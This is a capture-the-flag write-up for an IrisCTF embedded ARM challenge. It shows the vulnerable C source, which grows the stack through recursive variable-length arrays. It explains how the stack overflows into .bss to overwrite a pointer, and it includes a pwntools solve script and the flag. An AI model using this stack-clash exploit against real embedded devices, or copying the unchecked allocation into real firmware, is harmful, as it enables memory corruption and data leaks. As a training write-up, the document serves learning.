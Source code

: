 # Infinite Descent (Binary Exploitation)
> At the end lies your flag.

The challenge implements an embedded ARM program that is ran using QEMU. QEMU is configured to use the TI lm3s6965evb Cortex M3 microcontroller machine.

## Challenge
The challenge itself makes use of semihosting, a technique where a binary being emulated on a host can make requests to the host, such as requesting I/O. The challenge uses semihosting because it's quite simple and easier to implement for me and understand for solvers than setting up UART. The READ and WRITE functions are implemented with this.

The challenge is cross-compiled with GCC with a given linker script corresponding to the device and the ARM CMSIS library.

The challenge itself is as follows:
```c
char volatile* end_of_the_tunnel = "irisctf{REDACTED_REDACTED_REDA}";
char readbuf[5] = {0};
char* last_message = "(You didn't write anything)";

void descend() {
    WRITE("How many characters do you write in the ground (up to 4096)? Send exactly 4 digits and the newline.\n");
    READ(readbuf, 4 + 1);
    readbuf[4] = 0;
    long int n = strtol(readbuf, NULL, 10);
    if(n <= 0 || n > 4096) { return; }
    {
        WRITE("Send n characters and the newline.\n");
        char input[n+1];
        last_message = input;
        READ(input, (size_t)n+1);
        descend();
    }
}

int main() {
    WRITE("Welcome to my tunnel.\n");
    descend();
    WRITE("You run out of energy and pass away.\n");
    WRITE("Your final message is: ");
    WRITE(last_message);
    WRITE("\nGoodbye.\n");

    return 0;
}
```

The `main()` function prints a welcome message and calls the `descend()` function. Once it's done, it prints out the message at the `last_message` pointer, and exits.

The `descend()` function recurively takes input and puts it on the stack. It reads up to 4096 bytes at a time into a buffer which is allocated with a given size, then .
If the given amount of input is too big or <= 0, then program returns all the way back to main.

## Solution
Notice the sections in RAM are laid out interestingly:
```
20000000 l    d  .data  00000000 .data
20000074 l    d  .bss   00000000 .bss
20000138 l    d  .heap  00000000 .heap
2000c000 l    d  .stack 00000000 .stack
```

The stack is located directly after the data, bss, and heap sections without any unmapped memory. There is no ASLR, and there's actually no code preventing the stack from running on top of other sections! This means that we can keep adding data to the stack and eventually _overflow_ on the `last_message` pointer. The flag is in a known position on ROM, so we can print it out by setting the `last_message` to its position.

Attaching a debugger to QEMU and searching memory we can find the flag is located at 0x2470, and testing input shows after 15 blocks of 4096 bytes our next block can overflow the stack section. For the final input, we choose a input number of bytes such that our pointer will be overlaid on `last_message` and is the start of the message (since the stack buffer for our input starts on top of `last_message`). Again, using a debugger is the easiest for this - send a sequence and see which address it hard faults on (or break on write to `last_message`). If the final input size is too big, the stack will fall out of RAM and cause an hard fault on write.

```py
r = # remote or process

for _ in range(15):
    r.recvuntil(b"newline.\n")
    r.sendline(b"4096")
    r.recvuntil(b"newline.")
    r.sendline(b"a" * 4096)

r.recvuntil(b".\n")
r.sendline(b"3072")
r.sendline(b"@'\x00\x00" + b"a"*3068)
r.sendline(b"0000\n")
r.interactive()

```

```
irisctf{no_protection_for_stak}
```

I should have made a sequel challenge where you buffer overflow onto a vector table and then use semihosting calls to break out of the emulator..
